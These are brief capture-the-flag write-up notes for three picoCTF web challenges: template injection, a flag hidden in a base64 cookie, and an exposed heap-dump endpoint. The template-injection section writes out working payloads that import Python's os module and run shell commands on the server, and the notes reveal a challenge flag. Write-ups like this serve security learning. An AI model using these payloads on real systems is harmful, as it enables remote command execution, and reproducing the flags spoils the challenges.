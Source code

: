 ## SSTI
- tried few payloads: `{7*'7'}`
- `{{7*7}}` worked, tested for python functions `{{"ABC".lower()}}`
- Ran os command: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
- Cat flag: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}`

## Cookie Monster Secret Recipe

- http://verbal-sleep.picoctf.net:56241/ opened with a login page
- tried default credentials
- Checked the cookie
- base64 string: `cGljb0NURntjMDBrMWVfbTBuc3Rlcl9sMHZlc19jMDBraWVzXzZDMkZCN0YzfQ==`
```sh
echo cGljb0NURntjMDBrMWVfbTBuc3Rlcl9sMHZlc19jMDBraWVzXzZDMkZCN0YzfQ== | base64 -d
> picoCTF{c00k1e_m0nster_l0ves_c00kies_6C2FB7F3}%
```

## Head Dump
- Explore the website
- API Doc url: `http://verbal-sleep.picoctf.net:52012/api-docs/`
- Memory dump url: `http://verbal-sleep.picoctf.net:52012/api-docs/#/Diagnosing/get_heapdump`
- Find flag: `grep picoCTF <headdump file`
- 